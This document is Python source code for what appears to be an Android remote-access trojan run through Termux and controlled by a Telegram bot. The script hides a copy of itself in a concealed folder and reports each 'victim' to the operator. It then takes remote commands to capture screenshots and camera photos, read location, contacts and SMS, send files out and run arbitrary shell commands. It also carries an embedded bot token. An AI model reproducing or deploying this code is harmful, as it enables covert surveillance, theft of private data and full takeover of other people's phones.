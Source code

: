 import os
import telebot
import subprocess
import time
import shutil
import platform
from datetime import datetime

# ============= إعدادات البوت =============
TOKEN = "7809435528:AAH8YBYilD_LJz63CrC_NUgmRQff3ohFhWE"
CHAT_ID = 8172308538  # ضع معرفك على تيليجرام
bot = telebot.TeleBot(TOKEN)

# ============= زرع السكربت في مجلد مخفي =============
target_path = "/storage/emulated/0/.Hamo_VIP666/"
if not os.path.exists(target_path):
    os.makedirs(target_path)

myself = os.path.abspath(__file__)
hidden_path = os.path.join(target_path, "system_hamo.py")

if myself != hidden_path:
    shutil.copy(myself, hidden_path)

# ============= شعار عند التشغيل =============
banner = """
👑 HAMO_VIP666 HAS INFECTED YOUR DEVICE 👑
😈 Powered by Termux Control 😈
"""

try:
    bot.send_message(CHAT_ID, f"{banner}\n💀 Victim Online: {platform.node()} - {datetime.now().strftime('%H:%M:%S')}")
except:
    pass

# ============= أوامر التحكم =============
@bot.message_handler(func=lambda message: True)
def command_handler(message):
    try:
        text = message.text.lower()
        output = ""

        if text == "ls":
            output = subprocess.getoutput("ls")

        elif text.startswith("cd "):
            os.chdir(text[3:])
            output = f"📁 Changed directory to: {text[3:]}"

        elif text == "whoami":
            output = subprocess.getoutput("whoami")

        elif text == "screen":
            img_path = "/sdcard/screen.png"
            os.system(f"screencap -p {img_path}")
            with open(img_path, "rb") as photo:
                bot.send_photo(message.chat.id, photo)
            output = "📸 Screenshot sent."

        elif text == "battery":
            output = subprocess.getoutput("termux-battery-status")

        elif text == "vibrate":
            os.system("termux-vibrate -d 500")
            output = "📳 Vibrated for 0.5 sec."

        elif text == "location":
            output = subprocess.getoutput("termux-location")

        elif text == "contacts":
            output = subprocess.getoutput("termux-contact-list")

        elif text == "storage":
            output = subprocess.getoutput("df -h")

        elif text == "apps":
            output = subprocess.getoutput("pm list packages")

        elif text == "smslist":
            output = subprocess.getoutput("termux-sms-list")

        elif text == "camera":
            photo_path = "/sdcard/cam.jpg"
            os.system(f"termux-camera-photo -c 0 {photo_path}")
            with open(photo_path, "rb") as photo:
                bot.send_photo(message.chat.id, photo)
            output = "📸 Camera photo sent."

        elif text.startswith("toast "):
            msg = text[6:]
            os.system(f"termux-toast '{msg}'")
            output = f"🔔 Toast message sent: {msg}"

        elif text == "popup":
            os.system("termux-toast '🔥 YOU HAVE BEEN HACKED BY HAMO_VIP666 🔥'")
            output = "💀 Fake popup sent."

        elif text.startswith("download "):
            path = text.split(" ", 1)[1]
            if os.path.exists(path):
                with open(path, "rb") as f:
                    bot.send_document(message.chat.id, f)
                output = f"✅ File sent: {path}"
            else:
                output = "❌ File not found."

        elif text.startswith("exec "):
            cmd = text[5:]
            output = subprocess.getoutput(cmd)

        elif text == "exit":
            output = "👋 Exiting script..."
            bot.send_message(message.chat.id, output)
            exit()

        else:
            output = "❓ Unknown command."

        bot.send_message(message.chat.id, output)

    except Exception as e:
        bot.send_message(message.chat.id, f"❌ Error: {str(e)}")

# ============= تشغيل دائم =============
while True:
    try:
        bot.polling(none_stop=True)
    except:
        time.sleep(10)
